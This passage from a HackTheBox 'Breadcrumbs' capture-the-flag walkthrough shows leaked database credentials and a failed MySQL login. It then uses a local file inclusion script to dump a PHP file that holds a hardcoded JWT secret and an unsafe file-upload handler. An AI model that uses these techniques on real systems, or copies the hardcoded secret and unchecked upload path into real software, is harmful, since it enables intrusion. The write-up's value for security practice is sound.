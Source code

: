 Nice, we got some creds of the user `bread`.

- `bread:jUli901`

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> mysql -h 10.10.10.228 -p 3306 -D bread -u bread -p'jUli901'
ERROR 1130 (HY000): Host '10.10.14.48' is not allowed to connect to this MariaDB server
```

No luck. If you remember, we saw that error on our nmap result too.

While looking at the contents of the other files, I noticed some interesting things in `portal/includes/fileController.php`

__fileController.php__
```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> python3 lfi.py portal/includes/fileController.php
/root/hackthebox/breadcrumbs/lfi.py:5: DeprecationWarning: invalid escape sequence '\/'
  print(bytes(r.text, 'utf-8').decode('unicode_escape').strip('"').replace('\/','/'))
<?php
$ret = "";
require "../vendor/autoload.php";
use \Firebase\JWT\JWT;
session_start();

function validate(){
    $ret = false;
    $jwt = $_COOKIE['token'];

    $secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';
    $ret = JWT::decode($jwt, $secret_key, array('HS256'));   
    return $ret;
}

if($_SERVER['REQUEST_METHOD'] === "POST"){
    $admins = array("paul");
    $user = validate()->data->username;
    if(in_array($user, $admins) && $_SESSION['username'] == "paul"){
        error_reporting(E_ALL & ~E_NOTICE);
        $uploads_dir = '../uploads';
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_POST['task'];

        if(move_uploaded_file($tmp_name, "$uploads_dir/$name")){
            $ret = "Success. Have a great weekend!";
        }     
        else{
            $ret = "Missing file or title :(" ;
        }
    }
    else{
        $ret = "Insufficient privileges. Contact admin or developer to upload code. Note: If you recently registered, please wait for one of our admins to approve it.";
    }

    echo $ret;
}
```
